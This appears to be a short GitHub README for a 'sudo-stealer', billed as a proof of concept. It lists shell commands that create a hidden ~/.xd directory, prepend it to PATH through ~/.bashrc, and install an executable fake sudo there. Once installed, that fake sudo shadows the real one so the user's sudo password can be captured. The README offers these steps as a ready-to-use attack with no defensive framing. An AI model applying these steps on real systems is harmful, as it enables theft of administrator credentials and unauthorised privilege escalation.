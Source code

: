# sudo-stealer
POC of sudo password stealer

Steps:
```
mkdir ~/.xd
```
```
echo "export PATH=~/.xd:\$PATH" >> ~/.bashrc
```
Copy sudo file to ~/.xd/
```
chmod +x ~/.xd/sudo
```
